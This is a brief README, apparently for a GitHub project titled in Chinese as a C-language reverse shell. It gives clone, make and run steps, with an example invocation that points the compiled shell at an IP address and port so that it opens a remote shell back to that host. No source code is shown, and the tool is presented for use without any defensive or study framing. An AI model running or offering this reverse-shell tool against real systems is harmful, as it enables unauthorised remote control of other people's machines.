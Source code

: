 # c语言版本的 反弹shell
# 用法：
	git clone git@github.com:wantongtang/cBackShell.git
	make 
	./shell 192.168.1.23  58
### 说明：
	 ./shell 192.168.1.23  58 
	Usage: ./shell <reflect ip> <port> 
